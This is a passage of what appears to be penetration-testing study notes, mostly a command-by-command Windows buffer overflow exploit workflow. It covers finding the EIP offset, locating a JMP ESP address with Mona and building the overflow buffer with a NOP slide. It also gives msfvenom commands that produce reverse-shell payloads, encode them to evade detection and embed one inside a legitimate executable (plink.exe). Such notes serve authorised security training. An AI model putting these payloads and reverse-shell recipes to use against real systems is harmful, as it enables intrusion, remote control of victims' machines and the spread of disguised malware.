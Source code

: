     -   Nmap DNS Fuzzer
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

-   MSFvenom
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    -   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    -   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    -   Create a PE Reverse Shell
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe

    -   Create a PE reverse shell and embed it into an existing
        executable
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe
